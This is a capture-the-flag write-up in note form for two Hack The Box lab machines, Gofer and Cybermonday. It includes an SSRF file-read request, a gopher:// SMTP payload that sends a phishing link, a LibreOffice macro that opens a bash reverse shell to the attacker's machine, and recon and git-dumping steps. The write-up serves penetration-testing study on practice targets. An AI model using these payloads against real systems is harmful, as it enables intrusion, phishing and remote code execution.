 ## Gofer
[write-up](https://rouvin.gitbook.io/ibreakstuff/writeups/htb-season-2/gofer)
### Reco
- NMAP
    - `nmap -sVC 10.10.11.225`
        ![](https://hackmd.io/_uploads/SkEh6Mdi2.png)
        - 22 SSH
        - 25 filtered SMTP
        - 80 HTTP (redirect gofer.htb)
            - add it to our /etc/hosts
        - 139,445 SAMBA (smbd 4.6.2)
            - clock-skew -2s
            - security-mode 311 (signing enabled but not required)
- Website
    - "We are team of talented designers making websites with **BOOTSTRAP**"
        - BootstrapMade
    - images are stored in /assets/img/portfolio
    - contact form could have some weakness
        ![](https://hackmd.io/_uploads/B1wqpMdih.png)
### Weaponisation
- SMB
    - using nmap we found samba, lets scan it
        - `smbmap -H 10.10.11.225 -u " "`
            ![](https://hackmd.io/_uploads/r1R21Qdjn.png)
            - we have "read only" permissions to disk **SHARES**
    - let´s look inside shares disk
        - `smbclient -N //10.10.11.225/shares`
            ![](https://hackmd.io/_uploads/H1GPe7dsn.png)
    - analyze obtained backedup **email**
        - ![](https://hackmd.io/_uploads/HJCFlXusn.png)
            - email addresses: jdavis@gofer.htb, tbuckley@gofer.htb
            - they are sending important documents internally by mail
                - using .odt format (Libreoffice, not Office Word)
            - there is a proxy
- Dir scan
    - `dirsearch -u http://gofer.htb/`
        - we can access gofer.htb/assets
        ![](https://hackmd.io/_uploads/BJumDXOs2.png)
    - /assets
        - style.css, main.js
            - template Maxim v4.9.1
        - php-email-form/validate.js
            - PHP Email Form Validation v3.5
        ![](https://hackmd.io/_uploads/H1zvwm_oh.png)
- Proxy
    - let´s find the proxy
        - `ffuf -w /usr/share/wordlists/wfuzz/general/common.txt -u "http://gofer.htb" -H "Host: FUZZ.gofer.htb" -fw 20`
            - **proxy.gofer.htb** -> add it to /etc/hosts
                ![](https://hackmd.io/_uploads/H13NMXujn.png)
        
### Exploitation
- **SSRF**
    - when accessing proxy.gofer.htb, there is a login pop-up window
        - Lets try the POST request for the index.php 
            - `curl -X POST http://proxy.gofer.htb/index.php`
            ![](https://hackmd.io/_uploads/Sy35nT9sn.png)
                - passed without credentials, but nothing more...
        - there could be a SSRF vuln
            - URL parameter can be specified like this:
                - `curl -X POST http://proxy.gofer.htb/index.php?url=http://<LOCAL_IP>`
            - now we can try /passwd path
                - `curl -X POST http://proxy.gofer.htb/index.php?url=file:///etc/passwd`
            - after a bit of testing and modifying...
                - `curl -X POST http://proxy.gofer.htb/index.php?url=file:/etc/passwd`
- We need to use an .odt format to exploit this, and it appears that this is from the user Jeff Davis from the company site (with a username of jdavis, so we know the username naming convention). 
    - Since we have some kind of SSRF on the proxy service, we might be able to force a user to download and execute a malicious .odt file via macros to get the first shell. However, we first need to find out how to send an email through the proxy to the user since SMTP is not publicly facing. 
    - Based on the box name alone, I sort of figured out that we need to use the gopher:// protocol, which is used to send files to other users. 
- !!! **important knowledge**: [SSRF](https://infosecwriteups.com/server-side-request-forgery-to-internal-smtp-access-dea16fe37ed2?gi=50c9cd56d751) and [Gopherus payload](https://github.com/tarunkant/Gopherus) !!!
- OK: we want to use the **gopher** protocol to craft an ssrf payload based on the information in the email found on smb
    - right path to a foothold is in the obtained email
        - we can use the mentioned Gopherus for creating payload:
- **1. PAYLOAD:** 
    - `curl -X POST "http://proxy.gofer.htb/index.php?url=gopher://2130706433:25/xHELO%250d%250aMAIL%20FROM%3A%3Ciamanidiot@gofer.htb%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%3Ciamanidiot@gofer.htb%3E%250d%250aTo%3A%20%3Cjdavis@gofer.htb%3E%250d%250a%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250a<a+href%3d'http%3a//10.10.14.24/macro.odt>open</a>%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a"`
        - [.odt file HINT](https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html)
- **2. MACRO:**
    - prepare it by this [guide](https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html)
                
> Sub Main
> Shell("bash -c 'bash -i >& /dev/tcp/<LOCAL_IP>/<LOCAL_PORT> 0>&1'")
> End Sub

- **3. HTTP.SERVER && NC:**
    - `nc -nlvp <LOCAL_PORT>`
    - `python3 -m http.server 80` //in the folder containing macro.odt
### User flag
### Root flag
- Linpeas
    -  lim8en1 (option #8)
    -  23+who

# Cybermonday
## Reco
- `nmap -sVC 10.10.11.228`
    - add cybermonday.htb to /etc/hosts...
        - sudo nano /etc/hosts
- FUZZING
    - `wfuzz -c -w /usr/share/wordlists/wfuzz/general/common.txt --hc 400,301 -H 'Host:cybermonday.htb/FUZZ' http://cybermonday.htb`
        - nothing found
    - `wfuzz -c -w /usr/share/wordlists/wfuzz/general/common.txt --hc 400,301 -H 'Host:FUZZ.cybermonday.htb' http://cybermonday.htb`
        - nothing found
    - `gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://cybermonday.htb -t 100`
        - nothing found
- Website debugging
    - while checkning the website, it automatically opens the debig interface (probably checking if I try to cause SQL errors)...
        - 2 ways to cause this:
            - re-login with an existing user
            - change the user information in the profile
    ![](https://hackmd.io/_uploads/rk4NbE7ah.png)
    - on the left, there is a mention about existing **GIT**
        ![](https://hackmd.io/_uploads/ByzuW4ma3.png)
        - `cybermonday.htb/assets../.git/`
    - download the git using `git-dumper`
        - looking at the source code, there is an except:
            - `["_token","password","password_confirmation"]`
                - all parameters passed are saved by `$user->update($data);` then it saves information to the DB
    - from source code or debug on website we can see that the user´s model information looks like this:
        - {
            "id": 4,
            "username": "tester",
            "email": "test@gmail.com",
            "isAdmin": "false",
            "created_at": "2023-08-22T10:17:23.0000000Z",
            "updated_at": "2023-08-22T10:17:23.0000000Z",
        }




